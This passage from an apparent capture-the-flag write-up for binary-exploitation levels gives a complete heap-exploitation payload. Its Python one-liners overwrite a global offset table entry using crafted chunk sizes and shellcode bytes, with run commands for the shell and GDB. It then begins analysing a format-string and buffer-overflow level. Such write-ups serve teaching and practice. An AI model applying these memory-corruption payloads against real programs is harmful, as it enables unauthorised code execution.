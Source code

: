 ```sh
# To fill the third chunk and get the correct addres to the global offset table:

# Size: \xfc\xff\xff\xff \* 2

# Global offset table: 0x804b11c
#                      \x1c\xb1\x04\x08

# Heap: 0x804c000
#       \x00\xc0\x04\x08

$(python -c "print 'C' \* 92 + '\xfc\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08'")
```

Final:

```sh
# Shell:
./bin $(python -c "print 'A' * 12 + '\xB8\x64\x88\x04\x08\xFF\xD0'") $(python -c "print 'B' * 36 + '\x65'") $(python -c "print 'C' * 92 + '\xfc\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08'")

# GDB:
r `python -c "print 'A' * 12 + '\xB8\x64\x88\x04\x08\xFF\xD0'"` `python -c "print 'B' * 36 + '\x65'"` `python -c "print 'C' * 92 + '\xfc\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08'"`

> that wasn't too bad now, was it? @ 1721826986
```

-   ## EX07

### Objective

This level is completed when you see the “you have modified the target” message.

### Binary functionality

Just running `./bin` seems to do nothing but the program does'nt exit either and seems to wait for user input. When I input something random it shows message: `target is 0 :(`

### Process and solution

The main function does nothing special except call vuln function

![img](https://i.imgur.com/pCnfgJR.png)

Disassembly of the vuln function:

![img](https://i.imgur.com/YZzlxJz.png)

The vuln function reads up to 512 bytes of user input into a stack-allocated buffer, prints that input, and then checks if a global variable equals 64. If the variable equals 64, it prints a specific message; otherwise, it prints the variable's value. The function is vulnerable to both buffer overflow and format string attacks.
